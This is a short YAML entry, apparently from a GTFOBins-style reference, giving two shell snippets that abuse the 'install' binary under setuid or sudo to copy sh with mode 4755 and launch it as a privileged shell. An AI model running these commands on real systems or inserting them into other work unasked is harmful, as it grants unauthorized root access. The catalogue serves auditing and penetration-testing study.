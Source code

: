 ```yaml
---
functions:
  suid:
    - code: |
        TF=$(mktemp)
        install -m 4755 `which sh` $TF
        $TF -p
  sudo:
    - code: |
        TF=$(mktemp)
        sudo install -m 4755 `which sh` $TF
        $TF -p
---
```

